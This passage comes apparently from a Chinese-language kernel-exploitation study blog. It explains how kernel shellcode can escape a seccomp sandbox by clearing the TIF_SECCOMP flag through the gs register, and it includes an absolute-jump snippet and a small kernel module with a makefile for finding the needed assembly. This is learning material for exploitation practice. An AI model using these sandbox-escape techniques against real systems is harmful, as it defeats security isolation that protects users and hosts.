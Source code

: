 ```c
current_task_struct->thread_info.flags &= ~(1 << TIF_SECCOMP)
//The kernel points the segment register gs to the current task struct.
//所以gs寄存器指向current task struct
```
就能关闭seccomp机制~,具体实施措施如下:<br>
```
1. 通过gs寄存器访问current->thread_info.flags
2. 清空TIF_SECCOMP 标志
```

# 5. kernel shellcode<br>
在kernel中执行shellcode时，我们可以直接使用kernel提供的api帮我们解决问题！<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250906151639.png)
## 5.1 如何调用kernel api<br>
正常的call需要一个32位的偏移量来执行代码<br>
我们可以执行绝对值跳转:<br>
```asm
mov rax, 0xffff414142424242
call rax
```
## 5.2 编写seccomp逃逸相关的代码<br>
先前提到，内核用`gs`寄存器指向当前进程的`current task struct`<br>
在c内核开发中，我们可以用`current`速记宏来代表当前进程的`current task struct`<br>
在shellcode中，我们要如何代表它呢？直接抄作业就行了！<br>
利用速记宏，开发一下内核代码，将其编译成二进制，查看他的汇编:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250906152928.png)

**实操步骤如下:**<br>
内核模块代码:<br>
```c
// simple.c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/cred.h>
MODULE_LICENSE("GPL");
void * test_get_thread_info_flags_addr(void){
    return &current->thread_info.flags;
}
unsigned long test_get_seccomp_flag(void){
    return TIF_SECCOMP;
}

void * test_seccomp_escape(void){
    clear_thread_flag(TIF_SECCOMP);
}
```
makefile文件:<br>
```makefile
obj-m += simple.o
KDIR ?= /home/wsxk/Desktop/pwnkernel/linux-5.4 #你的linux源码目录
PWD  := $(shell pwd)

all:
	$(MAKE) -C $(KDIR) M=$(PWD) modules
clean:
	$(MAKE) -C $(KDIR) M=$(PWD) clean
```
直接执行`make`命令后，可以看到内核代码:<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2025-9-25/20250923223119.png)